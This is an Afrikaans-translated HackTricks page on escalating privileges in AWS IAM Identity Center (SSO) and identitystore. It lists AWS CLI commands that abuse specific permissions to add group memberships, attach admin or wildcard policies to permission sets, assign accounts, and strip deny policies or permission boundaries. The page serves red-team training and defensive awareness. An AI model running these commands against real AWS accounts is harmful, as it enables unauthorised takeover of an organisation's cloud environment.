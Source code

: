 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Vir meer inligting oor AWS Identity Center / AWS SSO, kyk:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Let daarop dat **standaard**, slegs **gebruikers** met toestemmings **van** die **Bestuursrekening** toegang sal hê tot en **beheer oor die IAM Identiteitsentrum**.\
Gebruikers van ander rekeninge kan dit slegs toelaat as die rekening 'n **Gedelegeerde Administrateur** is.\
[Kyk na die dokumentasie vir meer inligting.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Reset Wachtwoord~~

'n Maklike manier om bevoegdhede te verhoog in gevalle soos hierdie, sou wees om 'n toestemming te hê wat toelaat om gebruikers se wagwoorde te reset. Ongelukkig is dit slegs moontlik om 'n e-pos aan die gebruiker te stuur om sy wagwoord te reset, so jy sal toegang tot die gebruiker se e-pos nodig hê.

### `identitystore:CreateGroupMembership`

Met hierdie toestemming is dit moontlik om 'n gebruiker binne 'n groep te plaas sodat hy al die toestemmings wat die groep het, sal erf.
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

'n Aanvaller met hierdie toestemming kan ekstra toestemmings toeken aan 'n Toestemmingstel wat aan 'n gebruiker onder sy beheer toegeken is.

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

'n Aanvaller met hierdie toestemming kan ekstra toestemmings toeken aan 'n Toestemmingstel wat aan 'n gebruiker onder sy beheer toegeken is

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

'n Aanvaller met hierdie toestemming kan ekstra toestemmings aan 'n Toestemmingstel toeken wat aan 'n gebruiker onder sy beheer toegeken is.

{% hint style="warning" %}
Om hierdie toestemmings in hierdie geval te misbruik, moet jy die **naam van 'n klantbestuurde beleid weet wat binne AL die rekeninge is** wat geraak gaan word.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

'n Aanvaller met hierdie toestemming kan 'n Toestemmingstel aan 'n gebruiker onder sy beheer toeken aan 'n rekening.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Gee die STS korttermyn geloofsbriewe vir 'n gegewe rolnaam wat aan die gebruiker toegeken is.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

However, jy het 'n toegangstoken nodig wat ek nie seker is hoe om te kry nie (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

'n Aanvaller met hierdie toestemming kan die assosiasie tussen 'n AWS bestuurde beleid en die gespesifiseerde toestemmingset verwyder. Dit is moontlik om meer voorregte toe te ken deur **'n bestuurde beleid (weier beleid) te ontkoppel**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

'n Aanvaller met hierdie toestemming kan die assosiasie tussen 'n kliënt bestuurde beleid en die gespesifiseerde toestemmingset verwyder. Dit is moontlik om meer voorregte toe te ken deur **'n bestuurde beleid te ontkoppel (weier beleid)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

'n Aanvaller met hierdie toestemming kan die toestemmings uit 'n inline beleid van die toestemmingset verwyder. Dit is moontlik om **meer voorregte te verleen deur 'n inline beleid (weier beleid) te ontkoppel**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

'n Aanvaller met hierdie toestemming kan die Permission Boundary van die toestemmingstel verwyder. Dit is moontlik om **meer bevoegdhede toe te ken deur die beperkings op die Permission Set** wat van die Permission Boundary gegee is, te verwyder.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
